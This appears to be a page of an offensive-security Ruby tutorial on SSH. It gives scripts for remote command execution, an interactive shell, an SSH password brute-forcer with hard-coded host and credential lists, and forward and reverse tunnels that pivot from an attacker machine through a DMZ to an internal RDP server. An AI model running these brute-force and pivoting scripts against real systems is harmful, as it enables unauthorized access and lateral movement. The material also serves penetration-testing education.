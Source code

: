 # SSH
Here we'll show some SSH using ruby. We'll need to install net-ssh gem for that.

- Install net-ssh gem
```
gem install net-ssh
```

## Simple SSH command execution
This is a very basic SSH client which sends and executes commands on a remote system
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Client with PTY shell
Here a simple SSH client which give you an interactive PTY

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Open SSH channel
  session.open_channel do |channel|

    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success|
      raise "Error requesting pty" unless success

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success|
        raise "Error opening shell" unless success
    	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
      end
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data
      cmd = gets
      channel.send_data( "#{cmd}" )
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end

    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end

    session.loop
  end
end
```

## SSH brute force

**ssh-bf.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password,
        		   :auth_methods => ["password"], :port => port,
        		   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}"
    end

  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}"
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' doesn't accept password authentication method."
  end
end


hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin', 'secret', coffee]

hosts.each do |host|
  users.each do |user|
    passs.each do |password|

      attack_ssh host, user, password

end end end
```

## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ftunnel.rb on the **SSH Server**

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |   |                       |                 |                 |
  `->-'                       |-----------------|-----------------|
```
Run ssh-rtunnel.rb on the **SSH Server**

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')

  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SSH from the **SSH Server** to **localhost** on the localhost's SSH port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer",
                    "root",
                    "/rubyfu/file.txt", "/root/",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer",
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```





---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



